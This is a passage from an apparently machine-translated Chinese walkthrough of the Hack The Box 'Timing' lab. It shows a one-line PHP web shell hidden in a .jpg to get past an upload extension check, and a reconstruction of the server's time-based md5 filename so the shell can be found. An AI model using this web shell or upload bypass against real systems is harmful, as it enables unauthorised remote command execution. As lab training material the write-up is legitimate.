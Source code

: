 个人资料已更新

我们看到我们的个人资料已更新，现在刷新您的浏览器以查看我们有一个名为管理面板的新选项，单击该选项可进入此处:

![](img/ed503f1e2e241c4648d746362e00f3bc.png)

访问管理面板

# Web 外壳

我们已经找到了图片上传区域，它使用了我们之前看过的 PHP 文件。可以肯定这将是我们获得远程代码执行的方法。让我们从一个简单的 web shell 开始。我们从代码审查中知道，有文件扩展名检查，但没有文件内容检查。我们可以像这样轻松地绕过检查:

```
┌──(root💀kali)-[~]
└─# cat pencer.jpg
<?php system($_GET[cmd]);?>
```

我们以前已经在尼尼微和 T2 锻炉中使用过几次了。然而，这里稍微复杂一点，因为生成的文件名前面还有一个当前时间的 md5 散列。

我们可以创建自己简单的文件名生成器来帮助您。这就是 PHP 文件正在做的事情:

```
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
```

让我们测试一下我们自己的版本:

```
┌──(root💀kali)-[~/htb/timing]
└─# date
Wed 22 Dec 17:13:27 GMT 2021
```

使用当前时间:

```
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed 22 Dec 17:13:27 GMT 2021')) . '_pencer.jpg');
01c656c2e2adb93593117cb1b3d12808_pencer.jpg
```
